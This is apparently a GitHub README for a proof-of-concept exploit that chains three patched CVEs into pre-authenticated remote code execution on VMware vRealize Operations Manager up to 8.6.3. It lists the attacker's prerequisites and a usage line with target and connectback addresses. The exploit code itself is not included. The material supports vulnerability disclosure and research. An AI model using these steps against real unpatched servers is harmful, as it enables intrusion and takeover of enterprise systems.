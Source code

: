 # DashOverride

## What

This is a pre-authenticated RCE exploit for VMware vRealize Operations Manager (vROPS) that impacts versions <= 8.6.3.19682901.

## Author

Steven Seeley of Qihoo 360 Vulnerability Research Institute

## Tested

The exploit was tested against 8.6.3.19682901 using the file `vRealize-Operations-Manager-Appliance-8.6.3.19682901_OVF10.ova` (SHA1: 4637b6385db4fbee6b1150605087197f8d03ba00) but it has known to work against other older versions as well.

## Notes

- This exploit chains three vulnerabilities that have been [patched](https://www.vmware.com/security/advisories/VMSA-2022-0022.html). More details can be found in the [blog post](https://srcincite.io/blog/2022/08/09/from-shared-dash-to-root-bash-pre-authenticated-rce-in-vmware-vrealize-operations-manager.html):

  - [CVE-2022-31675 - MainPortalFilter ui Authentication Bypass](https://srcincite.io/advisories/src-2022-0015/)
  - [CVE-2022-31674 - SupportLogAction Information Disclosure](https://srcincite.io/advisories/src-2022-0016/)
  - [CVE-2022-31672 - generateSupportBundle VCOPS_BASE Privilege Escalation](https://srcincite.io/advisories/src-2022-0017/)

- This exploit will require the attacker to supply:

  - A valid dashboardlink token that will be used to bypass authentication.
  - Their own SMTP server settings, this is to ensure that exploitation works.
  - A valid Pak file that is signed by VMWare such as `APUAT-8.5.0.18176777.pak`.

- There is alot of moving parts to this exploit, hopefully I engineered it right so it works on the first shot.
- The exploit takes on average ~1m34.142s to complete (tested 5 times), I tried to engineer this to be faster, but it's within an allocated time for a competition ;->

## Run

```
researcher@mars:~$ ./poc.py 
(+) usage: ./poc.py <target> <connectback> <dashboardlink_token>
(+) eg: ./poc.py 192.168.2.196 192.168.2.234 uuncuybis9
```

## Example

![Running DashOverride](/poc.gif)
